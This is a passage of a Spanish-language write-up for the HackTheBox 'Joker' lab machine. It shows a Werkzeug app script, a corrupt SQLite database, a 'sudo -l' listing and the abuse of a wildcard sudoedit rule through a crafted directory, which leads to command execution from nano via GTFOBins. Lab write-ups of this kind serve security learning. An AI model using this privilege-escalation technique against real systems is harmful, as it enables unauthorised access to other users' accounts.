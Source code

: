 ```null
    from shorty import models, utils
    application = make_app()
    return locals()

action_runserver = script.make_runserver(make_app, hostname=netifaces.ifaddresses('lo')[2][0]['addr'], port=80)
action_shell = script.make_shell(make_shell)
action_initdb = lambda: make_app().init_database()

script.run()
```

```null
werkzeug@joker:~$ ls -l /var/www/shorty/data/shorty.db
-rw-r--r-- 1 werkzeug werkzeug 12288 May 18  2017 /var/www/shorty/data/shorty.db
```

La transfiero a mi equipo, pero está corrupta

```null
sqlite3 database.db
SQLite version 3.40.0 2022-11-16 12:10:08
Enter ".help" for usage hints.
sqlite> .tables
Error: database disk image is malformed
sqlite> 
```

Tengo un privilegio a nivel de sudoers

```null
werkzeug@joker:~$ sudo -l
Matching Defaults entries for werkzeug on joker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, sudoedit_follow, !sudoedit_checkdir

User werkzeug may run the following commands on joker:
    (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
```

Creo un directorio para que se cumpla las condiciones

```null
werkzeug@joker:~/testing$ mkdir pwned
werkzeug@joker:~/testing$ cd pwned/
werkzeug@joker:~/testing/pwned$ pwd
/var/www/testing/pwned
werkzeug@joker:~/testing/pwned$ sudoedit -u alekos /var/www/testing/pwned/layout.html
```

Dentro del editor ```nano```, existe una forma de ejecutar comandos, según [GTFObins](https://gtfobins.github.io/gtfobins/nano/#sudo)

<img src="/writeups/assets/img/Joker-htb/10.png" alt="">
